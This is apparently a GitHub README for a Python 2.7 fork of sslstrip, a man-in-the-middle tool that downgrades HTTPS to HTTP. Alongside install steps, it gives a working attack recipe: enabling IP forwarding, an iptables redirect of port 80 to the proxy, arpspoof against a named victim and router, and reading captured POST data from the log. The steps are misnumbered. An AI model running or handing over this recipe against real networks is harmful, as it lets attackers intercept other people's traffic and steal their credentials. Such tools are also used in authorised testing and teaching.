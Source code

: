 # sslstrip patched to run with python 2.7

sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping attacks.

This is a fork to make it work again with python 2.7. It requires Python 2.7, along with the `twisted`, `pyopenssl`, and `service_identity` python modules.

## Install

>This installation instructions assume that you have Python 2.7 installed and that it is the python version used by default (if it is not just change `python` to `python2` hereafter).

If you don't have `pip` for python 2 already installed, you can install it (besides distro-specific ways) with:

```console
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
sudo python get-pip.py
```

Now you can install the python 2 module dependencies with:

```console
pip install twisted pyopenssl service_identity
```

And now you can clone this repo and install sslstrip

```console
git clone https://github.com/juanelas/sslstrip.git
cd sslstrip
sudo python setup.py install
```

> If you'd rather not install `sslstrip`, you can always run it from source by just typing `python sslstrip.py` and then the rest of options (see Usage below)

## Usage

sslstrip can be run from the source base without installation.
Just run `sslstrip -h` as a non-root user to get the  command-line options.

```
sslstrip 0.9.1 by Moxie Marlinspike (patched by Juan Hernández Serrano)
Usage: sslstrip <options>

Options:
-w <filename>, --write=<filename> Specify file to log to (optional).
-p , --post                       Log only SSL POSTs. (default)
-s , --ssl                        Log all SSL traffic to and from server.
-a , --all                        Log all SSL and HTTP traffic to and from server.
-l <port>, --listen=<port>        Port to listen on (default 10000).
-f , --favicon                    Substitute a lock favicon on secure requests.
-k , --killsessions               Kill sessions in progress.
-h                                Print this help message.
```

The four steps to getting this working (assuming you're running Linux) are:

1) Flip your machine into forwarding mode (as root).

   `echo "1" > /proc/sys/net/ipv4/ip_forward`

2) Run the sslstrip transparent proxy listening at port `<yourListenPort>`

   `sslstrip -l <yourListenPort>`

3) Setup `iptables` to intercept HTTP requests (port 80/tcp) and send them to your sslstrip transparent proxy:

   `sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port <yourListenPort>`

5) Run `arpspoof` to redirect all traffic from your victim to the Internet to your machine:

   `arpspoof -i <yourNetworkdDevice> -t <victimIpAddress> <routerIpAddress>`

5) Start a network sniffer (e.g. wireshark, tcpdump) or directly look for HTTP posts in the sslstrip log file (`sslstrip.log` by default)
